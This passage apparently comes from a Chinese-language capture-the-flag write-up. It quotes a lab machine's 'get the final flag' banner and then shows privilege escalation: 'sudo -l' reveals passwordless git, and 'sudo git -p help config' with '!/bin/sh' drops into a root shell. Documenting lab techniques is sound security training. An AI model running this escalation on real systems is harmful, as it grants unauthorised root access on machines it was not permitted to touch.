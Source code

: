 ```
Good to see that you've made it this far - but you're not home yet.
You still need to get the final flag (the only flag that really counts!!!).
No hints here - you're on your own now.  :-)
Go on - git outta here!!!!

很高兴看到你走到了这里——但你还没到家。
你仍然需要获得最后的标志（唯一真正重要的标志！！！）。
这里没有提示——现在你得靠自己了。 :-)
继续吧——快离开这里!!!!
```

提示git命令



## 提权



### 执行sudo -l

```
sudo -l
```

![image-20250309140927999](./assets/image-20250309140927999.png)

提示可以无密码执行git



### git提权

```
sudo git -p help config 
!/bin/sh
whoami
```

![image-20250309141054848](./assets/image-20250309141054848.png)

![image-20250309141152885](./assets/image-20250309141152885.png)
